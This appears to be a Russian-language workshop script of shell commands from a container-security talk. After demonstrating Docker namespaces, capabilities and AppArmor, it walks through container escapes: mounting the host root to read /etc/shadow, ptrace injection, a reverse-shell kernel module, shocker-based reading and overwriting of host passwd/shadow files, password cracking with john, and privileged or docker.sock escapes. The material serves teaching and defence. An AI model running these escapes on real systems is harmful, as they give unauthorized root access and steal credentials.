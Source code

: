 Приветствие
Алексей
Работаю
Занимаюсь безопасностью контейнерных перевозок
Веду канал Ever Secure, подписывайтесь, много чего интересного
Один из ведущих подкаста SafeCode Live
Член программного комитета DevOops Conf и SafeCode conf

Создаем ВМ

install docker
https://docs.docker.com/engine/install/ubuntu/

sudo docker version
sudo usermod -aG docker ${USER}

docker version

#ssh harden
/etc/ssh/sshd_config
AllowUsers *@192.0.2.100
sudo sshd -t

# узнаем про изоляцию docker 
ls -l /proc/$$/ns
docker run -d --rm --name mynginx nginx
docker exec -it mynginx bash
ls -l /proc/$$/ns
apt update
apt install -y procps
docker inspect -f '{{ .State.Pid }}' mynginx
#сравниваем выдачу ps aux
ps -aux | grep PID

#Сначала узнаем про capability и Apparmor
apt install libcap2-bin
^D
docker commit mynginx mynginx
docker images
docker stop mynginx

docker run -d --rm --name mynginx -p 80:80  mynginx
docker exec -it mynginx bash
capsh --print

docker run -d --rm --name privnginx -p 8080:80 --privileged=true mynginx
docker exec -it privnginx bash
capsh --print

docker run -d --rm --name dropnginx -p 9000:80 --cap-drop=ALL mynginx
docker exec -it dropnginx bash
capsh --print

#Узнаем про Apparmor
docker ps --quiet --all | xargs docker inspect --format '{{ .Name }}: AppArmorProfile={{ .AppArmorProfile }}'
docker stop mynginx privnginx dropnginx

#Делаем образ с capsh
docker run -it --rm --name myubuntu ubuntu
apt update
apt install -y libcap2-bin vim gcc net-tools netcat john ssh
capsh --print
docker commit myubuntu myubuntu

# CAP SYS_ADMIN
docker run -it --cap-drop=ALL --cap-add=SYS_ADMIN --security-opt apparmor=unconfined --device=/dev/:/ myubuntu bash
caps --print
^D

sudo useradd unpriv
sudo useradd admin
sudo passwd unpriv
sudo passwd admin

sudo usermod -aG docker unpriv
su unpriv
sudo -v
groups
docker run -it --rm -v /:/host myubuntu bash
grep admin /host/etc/shadow

sudo usermod -G "" meltdown
^D
groups
sudo install -m=xs $(which docker) .
./docker run -it --rm -v /:/host myubuntu
grep admin /host/etc/shadow
^D
grep admin /etc/shadow
sudo usermod -aG docker ${USER}
^D
ssh



#CAP SYS_PTRACE  + shared pid NS
/usr/bin/python3 -m http.server 8080

docker run -it --rm --pid=host --cap-add=SYS_PTRACE --security-opt apparmor=unconfined myubuntu bash
ps -eaf | grep "/usr/bin/python3 -m http.server 8080" | head -n 1
vim inject.c
gcc -o inject inject.c
./inject <PID>
nc 192.168.1.12 5600

whoami
sudo -i
docker ps

# SYS_MODULE
# На локальной машине!!!!!
lsb_release -a
docker run -it --cap-add=SYS_MODULE ubuntu:20.04 bash
apt update
version=$(uname -r)
apt install -y make vim netcat gcc linux-headers-$version kmod net-tools
vim Makefile
vim reverse-shell.c
#change IP!!! 172.17.0.1
make
nc -lnvp 4444 & /usr/sbin/insmod reverse-shell.ko
rmmod reverse-shell.ko

# CAP DAC_READ_SEARCH
# на локальной машине
sudo passwd root

docker run -it --cap-add=DAC_READ_SEARCH myubuntu bash
apt install -y vim ssh gcc john net-tools netcat

vim shocker.c
gcc -o shocker shocker.c
./shocker /etc/passwd passwd
./shocker /etc/shadow shadow
unshadow passwd shadow > password
john password --format=crypt

# /etc/ssh/sshd_config
PermitRootLogin
PermitRootLogin yes

# CAP SYS_ADMIN DAC_OVERRIDE
docker run -it --cap-add=DAC_READ_SEARCH --cap-add=DAC_OVERRIDE myubuntu bash
# Copy and paste the shocker.c content
vim shocker.c
gcc -o read shocker.c
# Copy and paste the shocker_write.c content
vim shocker_write.c
gcc -o write shocker_write.c
# Use the ./read to read files from host: ./read /host/path /container/path
./read /etc/shadow shadow
./read /etc/passwd passwd
# Create new user and reset its password
useradd <USER-NAME>
echo '<USER-NAME>:<PASSWORD>' | chpasswd 
# Update the new user details in the copied files from host
tail -1 /etc/passwd >> passwd
tail -1 /etc/shadow >> shadow
# Copy the new user password hash paste it also for the root user in the shadow file. This will allow us to elevate permissions on the host.
vim shadow
# Use the ./write to write files from host: ./write /host/path /container/path
./write /etc/passwd passwd
./write /etc/shadow shadow
# Connect to host over ssh using the new user (unprivileged)
ssh privet@192.168.1.12
# Elevate privileges to root user with the new password
su

#CAP NO_CAP!!!
docker run -it -v /var/run/docker.sock:/run/docker.sock docker:dind /bin/sh

docker run -it --privileged -v /:/host/ ubuntu bash -c "chroot /host/"



docker run -it --cap-drop=ALL --cap-add=SYS_ADMIN --cap-add=DAC_OVERRIDE --security-opt apparmor=unconfined ubuntu:16.04 bash

